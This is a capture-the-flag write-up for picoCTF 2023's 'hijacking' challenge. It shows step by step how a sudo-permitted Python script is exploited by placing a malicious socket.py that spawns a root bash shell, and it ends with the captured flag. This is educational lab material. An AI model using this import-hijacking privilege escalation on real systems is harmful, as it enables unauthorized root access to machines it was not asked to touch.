

# hijacking - picoCTF 2023 - CMU Cybersecurity Competition
Binary Exploitation, 200 Points

## Description


 
## hijacking Solution

Let us connect to the SSH server as described in the challenge description:
```console
┌─[evyatar@parrot]─[/pictoctf2023/binary_exploitation/hijacking]
└──╼ $ ssh picoctf@saturn.picoctf.net -p 58168
picoctf@saturn.picoctf.net's password: 

Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.15.0-1031-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

picoctf@challenge:~$
```

By executing the `sudo -l` command, we are able to view a list of commands that can be run with root privileges. From this list, we can identify the command that we are interested in running with elevated permissions:
```console
picoctf@challenge:~$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```

We can observe that the `/usr/bin/python3 /home/picoctf/.server.py` command can be executed with `root` privileges. Let's take a closer look at the script:
```python
picoctf@challenge:~$ cat /home/picoctf/.server.py
import base64
import os
import socket

ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip) 
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info)  
```

we can exploit the Python import system to hijack the import of the `socket`/`base64` / `os` libraries. By creating a script with the same name (`socket.py`) in a directory that is higher up in the import search order than the original `socket` library, we can ensure that our script is imported instead of the original library. Our `socket.py` script will contain the code to spawn a shell as root using `pty.spawn('/bin/bash')`.

This is the content of our `socket.py` script:
```python
import pty

pty.spawn('/bin/bash')
```

Assuming that our `socket.py` script has been successfully created and placed in a higher directory than the original socket library, we can now execute the `/usr/bin/python3 /home/picoctf/.server.py` command with `root` privileges. This will result in the execution of our modified `socket.py` script, which in turn will spawn a shell as `root` using the `pty.spawn('/bin/bash')` command. We can then interact with this shell to carry out any necessary actions:
```console
picoctf@challenge:~$ sudo /usr/bin/python3 /home/picoctf/.server.py
root@challenge:/home/picoctf# 
```

Now that we have a `root` shell, we can navigate to the location of the flag file and read its contents:
```console
root@challenge:/home/picoctf# ls -ltra /root
total 16
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   43 Mar 16 02:08 .flag.txt
drwxr-xr-x 1 root root   63 Apr  3 12:03 ..
-rw------- 1 root root    5 Apr  3 12:04 .bash_history
drwx------ 1 root root   27 Apr  3 12:04 .
root@challenge:/home/picoctf# cat /root/.flag.txt
picoCTF{pYth0nn_libraryH!j@CK!n9_566dbbb7}
```


And we get the flag `picoCTF{pYth0nn_libraryH!j@CK!n9_566dbbb7}`.
